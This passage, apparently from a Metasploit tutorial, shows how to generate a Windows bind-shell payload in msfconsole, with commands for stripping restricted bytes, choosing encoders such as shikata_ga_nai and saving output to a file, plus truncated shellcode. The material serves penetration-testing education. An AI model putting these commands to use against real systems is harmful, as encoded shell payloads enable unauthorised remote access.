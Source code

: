 * Note that the shellcode’s **total byte size** and the **encoder** changed.
* By default Metasploit will **select the best encoder** to accomplish the generation when using the -b switch to remove **restricted byte list**. 
* If **too many** restricted bytes are given no encoder may be up for the task.

```bash
msf  payload(shell_bind_tcp) > generate -b '\x00\x44\x67\x66\xfa\x01\xe0\x44\x67\xa1\xa2\xa3\x75\x4b\xFF\x0a\x0b\x01\xcc\6e\x1e\x2e\x26'
[-] Payload generation failed: No encoders encoded the buffer successfully.
```

### Encoders \(-e\)

* To choose a **specific encoder**, use the **-e** switch followed by the encoder’s name.
* Be **careful** when using a different encoder other than the default, as it tends to give us a **larger** payload.

```bash
msf  payload(shell_bind_tcp) > show encoders
...snip...
msf  payload(shell_bind_tcp) > generate -e x86/nonalpha
# windows/shell_bind_tcp - 489 bytes
# http://www.metasploit.com
# Encoder: x86/nonalpha
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\x66\xb9\xff\xff\xeb\x19\x5e\x8b\xfe\x83\xc7\x70\x8b\xd7" +
"\x3b\xf2\x7d\x0b\xb0\x7b\xf2\xae\xff\xcf\xac\x28\x07\xeb" +
"\xf1\xeb\x75\xe8\xe2\xff\xff\xff\x17\x29\x29\x29\x09\x31" +
...snip...
```

### Saving to a File \(-f\)

* To **save** our generated payload to a **file** instead of displaying it on the screen, use the **-f** switch.

```bash
msf  payload(shell_bind_tcp) > generate -b '\x00' -e x86/shikata_ga_nai -f /root/msfu/filename.txt
[*] Writing 1803 bytes to /root/msfu/filename.txt...
msf  payload(shell_bind_tcp) > cat ~/msfu/filename.txt
[*] exec: cat ~/msfu/filename.txt

# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xcb\xb8\x4f\xd9\x99\x0f\xd9\x74\x24\xf4\x5a\x2b\xc9" +
"\xb1\x56\x31\x42\x18\x83\xc2\x04\x03\x42\x5b\x3b\x6c\xf3" +
"\x8b\x32\x8f\x0c\x4b\x25\x19\xe9\x7a\x77\x7d\x79\x2e\x47" +
...snip...
```
